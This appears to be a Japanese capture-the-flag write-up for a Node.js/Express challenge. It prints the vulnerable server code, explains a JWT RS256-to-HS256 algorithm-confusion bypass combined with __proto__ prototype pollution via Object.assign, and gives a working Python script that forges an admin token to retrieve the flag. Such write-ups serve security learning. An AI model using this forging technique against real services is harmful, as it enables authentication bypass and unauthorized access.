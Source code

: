 # writeup

問題の実装は以下。jwtのpayloadのadminパラメータとセッションに保存されるオブジェクトのadminパラメータを`true`にするとflagが得られる。
```:.js
const express = require('express');
const session = require('express-session');
const jwt = require('jsonwebtoken');
const { v4: uuidv4 } = require('uuid');
const _ = require('lodash');

const { readKeyFromFile, generateRandomString, getAdminPassword } = require('./utils');

const HOST = process.env.CTF4B_HOST;
const PORT = process.env.CTF4B_PORT;
const FLAG = process.env.CTF4B_FLAG;

const app = express();
app.use(express.json());

app.use(session({
  secret: generateRandomString(),
  resave: false,
  saveUninitialized: true,
  cookie: { secure: false }
}));

app.post('/register', (req, res) => {
  const { username, password } = req.body;
  if(!username || !password) {
    res.status(400).json({ error: 'Please send username and password' });
    return;
  }

  const user = {
    id: uuidv4(), 
    username: username,
    password: password
  };
  if (username === "admin" && password === getAdminPassword()) {
    user.admin = true;
  }
  req.session.user = user;

  let signed;
  try {
    signed = jwt.sign(
      _.omit(user, ['password']),
      readKeyFromFile('keys/private.key'), 
      { algorithm: 'RS256', expiresIn: '1h' } 
    );
  } catch (err) {
    res.status(500).json({ error: 'Internal server error' });
    return;
  }
  res.header('Authorization', signed);

  res.json({ message: 'ok' });
});

app.post('/flag', (req, res) => {
  if (!req.header('Authorization')) {
    res.status(400).json({ error: 'No JWT Token' });
    return;
  }

  if (!req.session.user) {
    res.status(401).json({ error: 'No User Found' });
    return;
  }

  let verified;
  try {
    verified = jwt.verify(
      req.header('Authorization'),
      readKeyFromFile('keys/public.key'), 
      { algorithms: ['RS256', 'HS256']
    });
  } catch (err) {
    res.status(401).json({ error: 'Invalid Token' });
    return;
  }

  if (req.session.user.username !== "admin" || req.session.user.password !== getAdminPassword()) {
    verified = _.omit(verified, ['admin']);
  }

  const token = Object.assign({}, verified);
  const user = Object.assign(req.session.user, verified);

  if (token.admin && user.admin) {
    res.send(`Congratulations! Here's your flag: ${FLAG}`);
    return;
  }

  res.send('No flag for you');
});

app.listen(PORT, HOST, () => {
  console.log(`Server is running on port ${PORT}`);
});
```

通常、jwtの署名にはRS256が使用され、秘密鍵を用いて署名がなされる。
```:.js
signed = jwt.sign(
    _.omit(user, ['password']),
    readKeyFromFile('keys/private.key'), 
    { algorithm: 'RS256', expiresIn: '1h' } 
);
```

jwtの署名検証部分では、RS256の他にHS256を使用することが可能。
```:.js
verified = jwt.verify(
    req.header('Authorization'),
    readKeyFromFile('keys/public.key'), 
    { algorithms: ['RS256', 'HS256']
});
```

ここでは、RS256の公開鍵をHS256の共通鍵として使用する攻撃が可能となる。配布ファイルから得た公開鍵を用いて、署名アルゴリズムをHS256としてjwtに署名を付与することで署名の検証をバイパスできる（[参考](https://scgajge12.hatenablog.com/entry/jwt_security)）。

また、adminのパスワードを持っていないと、jwtのpayloadのadminパラメータが削除される。しかし、[`Object.assign()`](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/Object/assign)が使用され、`verified`の全てのプロパティの浅いコピーを空のオブジェクト、`req.session.user`に実行する。

```:.js
if (req.session.user.username !== "admin" || req.session.user.password !== getAdminPassword()) {
    verified = _.omit(verified, ['admin']);
}

const token = Object.assign({}, verified);
const user = Object.assign(req.session.user, verified);

if (token.admin && user.admin) {
    res.send(`Congratulations! Here's your flag: ${FLAG}`);
    return;
}
```

ここで、jwtのpayloadに`__proto__.admin = true`を加えることで最後の検証をバイパスできる。これは、jwtのpayloadが`JSON.parse()`によってJSON文字列からJavascriptのオブジェクトに[変換され](https://github.com/auth0/node-jsonwebtoken/blob/a99fd4b473e257c2f50ff69c716db1c520bf9a78/decode.js#L12)、`Object.assign()`により`__proto__`を介してadminパラメータが該当オブジェクトにコピーされるためである（[参考](https://www.fastify.io/docs/latest/Guides/Prototype-Poisoning/)）。

```
> const jwt_payload = '{"__proto__": { "admin": true }}';
> const verified = JSON.parse(jwt_payload);
> verified
{ ['__proto__']: { admin: true } }
> const token = Object.assign({}, verified);
> token.admin
true
```

最終的に以下のスクリプトを用いてflagを取得することができる。

```:.py
import os
import json
import sys
import requests
import jwt
import textwrap

def solve(url):
    # /register
    register_data = {
        "username": "alice",
        "password": "password"
    }

    s = requests.Session()

    register_response = s.post(f'{url}/register', json=register_data)

    if register_response.status_code != 200:
        print(f"Register request failed: {register_response.status_code}, {register_response.text}")
        sys.exit()

    # /flag
    payload = {
        "__proto__": {
            "admin": True
        }
    }

    pubkey = textwrap.dedent('''-----BEGIN PUBLIC KEY-----
MIICIjANBgkqhkiG9w0BAQEFAAOCAg8AMIICCgKCAgEA3NcjHBbKAAhJd6P+TviV
h/WRXtxtKBJLPQYIlmZ/I35WlQLpNXR9Q0YiQLMNW0E3MTHISQlQE5hBF8S2Z2tC
0SmiAMr3QQjaIA3vmefA/CXSp4YjIbKz75Nwzczk7spYiVwEbYoLOpovnl+KB6Tj
XJWCFXvgpL6xYu9Se8msgqVIl+cWANlmPdBuDRvF/7KUboHsdZsn1mL88JoTnk9u
sVp9PP+bpbcFEzwzfS+YkjwUhXFHHNPqsu9eKZZlpkRbl3lZzzxgX4G/bh3BkaCO
wp4Pv1ptk8NJH8N96USDw3Lpgc6wGReoyCBY7Dtg1a3IHNjQQwQg+rd+1yUUfPAe
qa9MbLWr3hYQn+9G4SxTwmWptGJLLjZMzfELtGxiZTHlnifP4nHSNJ8WdGJ63YU9
7LiwkWsE8BVIPi+f/oNIbhhgJzGSD57mkdN0wNloN0I+83/0g2TnVSvkSM5ow/E9
h2w/qaT9LfjtYiZbFFc95lwcaR1nUO/hmZ2okTt7Nh5tlefbvHNSyHMFuvTiEanI
xO2kJIXugy9h9pNAX8jlNHNQWT1WM5HI3t8aMcsucjOT9wTWh7Hl0qxrO4f7f2kP
HODGSRQ/uR9czPYtXP4HPAPUToZ9Xzc5Voj3Q/bzRcAnkKH6fmUOtLPd2XhTDTFl
A5kHBxj92CnlYq6/bQdXDy0CAwEAAQ==
-----END PUBLIC KEY-----
    ''')

    forged_jwt = jwt.encode(payload, pubkey, algorithm="HS256")

    headers = {
        "Authorization": forged_jwt.decode(),
        "Content-Type": "application/json"
    }

    flag_response = s.post(f'{url}/flag', headers=headers)

    if flag_response.status_code != 200:
        print(f"Get flag request failed: {flag_response.status_code}, {flag_response.text}")
        sys.exit()

    return flag_response.text

if __name__ == "__main__":
    flag = solve("問題サーバのURL")
    print(flag) # Congratulations! Here's your flag: ctf4b{Pr0707yp3_P0llU710n_f0R_7h3_w1n}
```